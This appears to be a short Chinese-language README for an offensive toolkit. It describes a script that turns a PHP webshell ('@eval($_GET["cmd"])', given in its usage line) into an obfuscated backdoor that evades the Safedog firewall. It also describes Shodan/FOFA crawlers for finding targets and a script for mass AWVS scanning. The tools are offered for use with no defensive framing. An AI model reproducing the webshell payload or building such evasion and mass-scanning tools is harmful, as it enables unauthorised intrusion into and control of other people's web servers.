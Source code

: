 # training
bypass_webshell里面是绕过sofadog的webshell
用法： python.exe fuckdogwebshell.py '@eval($_GET["cmd"])'，可以生产无字符型后门。
search_spider里面是shodan和fofa的爬虫
用法： python [脚本] [关键字] [页数]

awvs批量添加URL脚本，可以设置同时最大扫描数量，适合大批量扫描，fofa+awvs+xray联动脚本开发中
